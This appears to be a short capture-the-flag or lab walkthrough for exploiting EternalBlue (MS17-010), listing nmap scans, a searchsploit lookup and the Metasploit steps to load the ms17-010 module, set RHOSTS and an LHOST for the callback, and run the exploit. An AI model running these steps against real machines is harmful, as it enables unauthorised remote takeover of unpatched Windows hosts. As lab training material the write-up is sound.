





## **Eternal Blue**

```
nmap -p- -sC -sV <IP>
```

```
nmap --script=vuln 10.49.178.117
```

We found a MS17



```
searchsploit MS17
```



I found a ton and we can use these scripts but here we will prefer metasploit tool

```
msfconsole
```

```
search ms17-010
```



We have a few but we will choose first one to do it

```
use 0
```

```
options
```



Now when we do it, we have to change few things, Add RHOSTS, Change LHOST (We can also change LPORT but let us keep it at default)

```
set RHOSTS <IP>
```

```
set LHOST <Your tun0 IP>
```



```
exploit
```


